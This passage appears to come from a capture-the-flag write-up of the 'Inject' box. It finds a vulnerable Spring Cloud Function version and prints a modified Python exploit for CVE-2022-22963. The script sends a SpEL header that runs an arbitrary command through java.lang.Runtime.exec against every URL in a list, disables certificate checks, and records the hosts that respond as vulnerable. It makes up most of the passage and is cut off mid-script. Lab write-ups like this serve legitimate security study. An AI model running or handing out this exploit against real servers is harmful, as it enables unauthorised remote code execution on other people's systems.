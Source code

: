 ![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_5.png)

With the retrieved information, we can get the Spring version by checking `pom.xml` and it is vulnerable with https://github.com/me2nuk/CVE-2022-22963 

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_6.png)

I modified the original script to pass the arguments for better work:

```python
import requests
import sys
import threading
import urllib3
urllib3.disable_warnings()

def scan(txt,cmd):

    payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'

    data ='test'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'
    f = open(txt)
    urllist=f.readlines()

    for  url  in  urllist :
        url = url.strip('\n')
        all = url + path
        try:
            req=requests.post(url=all,headers=headers,data=data,verify=False,timeout=3)
            code =req.status_code
            text = req.text
            rsp = '"error":"Internal Server Error"'

            if code == 500 and rsp in text:
                print ( f'[+] { url } is vulnerable' )
                poc_file = open('vulnerable.txt', 'a+')
                poc_file.write(url + '\n')
                poc_file.close()
            else:
                print ( f'[-] { url } not vulnerable' )

        except requests.exceptions.RequestException:
            print ( f'[-] { url } detection timed out' )
            continue
        except:
            print ( f'[-] { url } error' )
            continue

if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 = sys.argv[2]
        t = threading . Thread ( target = scan ( cmd1 , cmd2 ) ) 
        t.start()
```